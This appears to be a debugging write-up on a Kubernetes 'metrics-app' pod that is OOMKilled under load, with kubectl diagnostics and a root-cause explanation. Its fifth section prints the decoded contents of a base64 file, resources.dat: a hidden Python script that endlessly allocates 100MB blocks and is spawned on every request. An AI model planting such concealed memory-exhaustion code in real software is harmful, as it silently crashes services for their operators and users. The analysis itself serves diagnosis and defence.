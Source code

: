 # 🧪 Debugging: Unexpected Crash in `metrics-app`

## 🔍 Observed Behavior

When running a loop test against the `/counter` endpoint using:

```bash
#!/bin/bash

# This script is used to test the /counter endpoint of the web server
for i in $(seq 0 20); do
    time curl localhost/counter
done
```

The app initially responded as expected:

```
Counter value: 1
Counter value: 2
...
```

However, after a few requests, it began returning:

```html
<html>
  <head>
    <title>502 Bad Gateway</title>
  </head>
  <body>
    <center><h1>502 Bad Gateway</h1></center>
    <hr />
    <center>nginx</center>
  </body>
</html>
```

---

## 🧾 Investigation Steps

### 1. Checked Pod Status

```bash
kubectl get pods -n <namespace>
```

Output showed that the pod was in a **CrashLoopBackOff** state, and restarting.

---

### 2. Checked Pod Logs

```bash
kubectl logs <pod-name> -n <namespace>
```

The logs did not show any application-level errors.

---

### 3. Checked Events for Clues

```bash
kubectl get events -n <namespace> --sort-by='.metadata.creationTimestamp'
```

Found this event:

```
Back-off restarting failed container metrics-app in pod <pod-name>
```

This confirmed that Kubernetes was trying and failing to restart the pod.

---

### 4. Checked Last Exit State of the Container

To inspect the termination reason of the previous container instance:

```bash
kubectl get pod <pod-name> -n <namespace> -o jsonpath="{.status.containerStatuses[*].lastState.terminated}"
```

**Sample Output:**

```json
{
  "containerID": "containerd://<id>",
  "exitCode": 137,
  "finishedAt": "2025-05-17T04:57:04Z",
  "reason": "OOMKilled",
  "startedAt": "2025-05-17T04:52:09Z"
}
```

---

### 5. Analyzed Suspicious Code Embedded in `resources.dat`

While exploring the container’s filesystem using:

```bash
kubectl exec -it <pod-name> -n <namespace> -- /bin/bash
```

I found a binary-encoded file called `resources.dat`. Decoding it revealed Python code embedded in base64:

```bash
cat resources.dat | base64 -d
```

Decoded content:

```python
import random
import time

# Global list to keep references to bytearrays
global_memory = []

def generate_blocks():
    while True:
        _ = 0
        for _ in range(10**6):
            _ += random.randint(1, 10)
            local_list = []
            for _ in range(5):
                ba = bytearray(100 * 1024 * 1024)
                local_list.append(ba)
            # Keep reference forever
            global_memory.extend(local_list)
        time.sleep(0.05)

if __name__ == "__main__":
    generate_blocks()
```

The resources.dat file contains a base64-encoded Python script that, when decoded and executed, runs an infinite loop that continuously allocates large blocks of memory (100MB each) and stores them in a global list. This prevents the memory from being freed, causing the program to consume increasing amounts of RAM rapidly, ultimately leading to the container being terminated by the system due to an Out Of Memory (OOM) condition.

---

### 6. 🔬 Summary of Root Cause and Flow

Here’s how the issue unfolds step-by-step:

- **User accesses the `/counter` endpoint**
  – This increments a counter and triggers a background task.

- **The background task launches a metrics collector**
  – This reads the `resources.dat` file, decodes a base64-encoded Python script, and writes it to a temporary file.

- **The script is executed as a background subprocess**
  – It enters an infinite loop, continuously allocating 100MB memory blocks and storing them in a global list.

- **Memory usage increases rapidly**
  – Since the script never releases memory and runs indefinitely, it consumes all available RAM.

- **Every `/counter` request starts a new memory-intensive subprocess**
  – Repeated calls multiply memory consumption exponentially.

- **Eventually, the container is OOMKilled**
  – The Linux kernel kills the process due to memory exhaustion, and Kubernetes restarts the container.

---

### Generic fix approach

- Avoid endlessly allocating large memory blocks or leaking memory.
- Control how often background subprocesses are launched; avoid spawning one per request.
- Implement resource limits in Kubernetes for CPU and memory.
- Monitor application resource usage regularly.
- Profile and optimize memory-heavy parts of the app.
